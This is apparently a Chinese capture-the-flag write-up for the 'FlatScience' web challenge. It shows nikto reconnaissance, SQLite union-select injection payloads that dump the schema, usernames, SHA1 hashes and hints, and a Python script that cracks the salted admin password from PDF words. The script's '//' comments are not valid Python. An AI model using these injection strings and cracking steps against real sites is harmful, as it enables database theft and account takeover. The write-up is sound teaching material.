




# FlatScience
## 题目描述
暂无
## 思路
http://220.249.52.133:54452  
点开题目链接，查看源码，点击链接，发现没什么可以利用的点，因此，用 nikto 扫一下网站，看看有没有隐藏文件：  
```shell
nikto -host http://220.249.52.133:54452/
```
发现两个隐藏文件：  
  
分别访问，admin.php 文件没什么有用的东西，源码还提示不要尝试绕过，爆破也没爆出来。同时，查看 login.php 文件，查看源码，发现这样一句话：  
  
因此，构造尝试一下这个参数：  
http://220.249.52.133:54452/login.php?debug  
  
打印出了源码，看样子是需要 sql 注入，并且应当与 SQLite 有关，因此，去查一下 SQLite 的相关资料。好吧，查着查着查到了 wp 上……构造注入：  
usr='union select name,sql from sqlite_master--+&pw=  
**为什么要查询 sql 呢，这涉及到 sqlite 自带的结构表 sqlite_master，sql 是 sqlite_master 中的一个字段，注入时经常用到的。  **
  
可以看到，在 set-cookie 的 name 这个地方会出现一些信息，整理一下，是一段 sql 代码：  
```sql
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```
这就出现了表名，列名，因此继续构造注入代码以获取更多信息，这里，我们用 limit 进行移位查询：  
```sql
usr='union select id, id from Users limit 0,1--+&pw=  
usr='union select id, name from Users limit 0,1--+&pw=
usr='union select id, password from Users limit 0,1--+&pw=
usr='union select id, hint from Users limit 0,1--+&pw=
```
同样是在 set-cookie 的 name 这个地方获取信息，最后整理得到以下内容：  
```sql
admin  3fab54a50e770d830c0416df817567662a9dc85c +my+fav+word+in+my+fav+paper?!
fritze 54eae8935c90f467427f05e4ece82cf569f89507 +my+love+is�
hansi  34b0bb7c304949f9ff2fc101eef0f048be10d3bd +the+password+is+password
```
我们只需要 admin 的密码就可以了，因此尝试获取密码。根据上面的 php 代码可知，表中的密码是经过处理后得到的，处理过程如下：首先是用户设置的密码与 Salz! 进行拼接，然后进行 sha1 处理。而根据 hint 的提示，这个密码是这个教授在他最喜欢的论文中，最喜欢的单词。这……要通读论文找单词吗……又去看了一下 wp，大佬不愧是大佬，写了个 py 脚本：  
```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
    //获取pdf文件
	return [i for i in os.listdir("./") if i.endswith("pdf")]

//把pdf文件转为text格式
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text

def find_password():
	pdf_path = get_pdf()
	for i in pdf_path:
		print "Searching word in " + i
		pdf_text = convert_pdf_2_text(i).split(" ")
		for word in pdf_text:
			sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
			if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
				print "Find the password :" + word
				exit()

if __name__ == "__main__":
	find_password()
```
最终找到了 admin 的密码：  
ThinJerboa  
从 admin.php 的页面输入，得到 flag：  
  
